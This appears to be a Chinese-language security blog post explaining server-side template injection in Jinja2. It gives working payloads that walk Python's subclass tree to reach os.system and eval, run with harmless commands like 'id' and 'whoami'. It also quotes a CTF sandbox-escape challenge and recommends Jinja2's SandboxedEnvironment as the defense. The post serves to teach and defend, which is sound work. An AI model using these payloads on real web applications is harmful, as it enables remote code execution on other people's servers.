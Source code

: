 ```yaml
---
layout: post
title: 利用 Python 特性在 Jinja2 模板中执行任意代码
tags: [web, security, ssti]
---
```


本文源于老外 [@nvisium](https://twitter.com/nvisium) 在其博客发表的博文 [《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎 [Jinja2](http://jinja.pocoo.org/) 在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

### 一、模板中复杂的代码执行方式

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如 `[]` `{}` 等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```python
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()
```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入 `{{ 'abcd' }}` 使模板直接渲染字符串变量：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/1.png)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的 `upper()` 函数将其字符串转换为全大写形式：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/2.png)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 `os`，即需要在模板环境中对其注册，示例代码二如下：

```python
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()
```

执行代码，并传入参数 ```{{ os.popen('echo Hello RCE').read() }}```，因为在模板环境中已经注册了 `os` 变量为 Python `os` 模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为 `echo Hello Command Exection`：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/3.png)

如果使用示例代码一来执行，会得到 `os` 未定义的异常错误：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/4.png)

### 二、利用 Python 特性直接执行任意代码

那么，如何在未注册 `os` 模块的情况下在模板中调用 `popen()` 函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```python
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

（利用 Python 特性绕过沙盒限制的详细讲解请参考 [Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```python
[c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/5.png)

当然通过这种方式不仅仅能够通过 `os` 模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

```
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
```

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)

当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```python
[a for a in [b for b in [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')
```

在 Jinja2 中模板 Payload 如下：

```
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/7.png)

### 三、利用途径和防御方法

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境 `jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/8.png)

### 参考

* [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)

